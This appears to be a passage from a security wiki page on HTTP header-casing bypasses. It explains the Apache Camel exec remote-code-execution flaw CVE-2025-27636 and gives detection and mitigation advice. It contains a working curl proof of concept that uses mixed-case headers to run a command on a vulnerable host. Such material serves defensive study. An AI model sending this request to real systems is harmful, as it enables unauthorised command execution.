 ### Example: Apache Camel `exec` RCE (CVE-2025-27636)

In vulnerable versions of Apache Camel the *Command Center* routes try to block untrusted requests by stripping the headers `CamelExecCommandExecutable` and `CamelExecCommandArgs`.  The comparison was done with `equals()` so only the exact lowercase names were removed.

```bash
# Bypass the filter by using mixed-case header names and execute `ls /` on the host
curl "http://<IP>/command-center" \
  -H "CAmelExecCommandExecutable: ls" \
  -H "CAmelExecCommandArgs: /"
```

The headers reach the `exec` component unfiltered, resulting in remote command execution with the privileges of the Camel process.

### Detection & Mitigation

* Normalise all header names to a single case (usually lowercase) **before** performing allow/deny comparisons.
* Reject suspicious duplicates: if both `Header:` and `HeAdEr:` are present, treat it as an anomaly.
* Use a positive allow-list enforced **after** canonicalisation.
* Protect management endpoints with authentication and network segmentation.

## References

- [CVE-2025-27636 – RCE in Apache Camel via header casing bypass (OffSec blog)](https://www.offsec.com/blog/cve-2025-27636/)
- [https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Disposition](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Disposition)
- [https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers)
- [https://web.dev/security-headers/](https://web.dev/security-headers/)
- [https://web.dev/articles/security-headers](https://web.dev/articles/security-headers)

